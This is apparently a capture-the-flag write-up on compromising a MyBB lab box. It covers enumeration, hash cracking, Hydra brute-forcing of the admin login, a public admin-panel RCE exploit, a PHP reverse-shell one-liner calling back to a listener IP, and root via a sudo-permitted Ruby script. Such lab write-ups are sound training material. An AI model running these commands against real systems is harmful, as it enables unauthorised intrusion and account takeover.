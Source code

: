```yaml
---
sticker: emoji//1f476
---
```


# ENUMERATION


## OPEN PORTS


![[Pasted image 20241029135137.png]]
Seems like we only have a website, let's fuzz it


## FUZZING

### GOBUSTER FUZZ

![[Pasted image 20241029135218.png]]

### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![[Pasted image 20241029143334.png]]

Let's go to the forum:

![[Pasted image 20241029143346.png]]

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![[Pasted image 20241029143517.png]]

![[Pasted image 20241029143536.png]]
Nice, let's keep enumerating the machine until we find something we can exploit:

![[Pasted image 20241029143732.png]]
We can see we only have the admin user registered, 


![[Pasted image 20241029143829.png]]
Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![[Pasted image 20241029144434.png]]

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![[Pasted image 20241029144701.png]]

Found `/data` inside of the directory, let's take a look:

![[Pasted image 20241029144821.png]]

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![[Pasted image 20241029144856.png]]

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![[Pasted image 20241029145105.png]]

We got `alice:tinkerbell` let's attempt to log in:

![[Pasted image 20241029145142.png]]
We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:


```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`

![[Pasted image 20241029150240.png]]



```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![[Pasted image 20241029150737.png]]



# EXPLOITATION


First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![[Pasted image 20241029150932.png]]
We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![[Pasted image 20241029151057.png]]
So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT

![[Pasted image 20241029151225.png]]

We got RCE!
```

With the RCE from the exploit, we can get a [[CYBERSECURITY/REVERSE SHELLS/MOST COMMON REVERSE SHELLS.md|reverse shell]]:

```ad-note

# USED SHELL

php:  `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED

![[Pasted image 20241029151456.png]]

```

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize our shell]]:

![[Pasted image 20241029151553.png]]

With our new stable shell, we can begin with [[CYBERSECURITY/LINUX/LINUX PRIVILEGE ESCALATION/BASIC PRIVESC IN LINUX.md|PRIVESC]]

# PRIVILEGE ESCALATION



At home directory, we can find our previous user `alice`, let's switch users:

![[Pasted image 20241029151851.png]]

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:


## SUDO -L


![[Pasted image 20241029151944.png]]
Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT

![[Pasted image 20241029152250.png]]


```

And just like that, the CTF is done!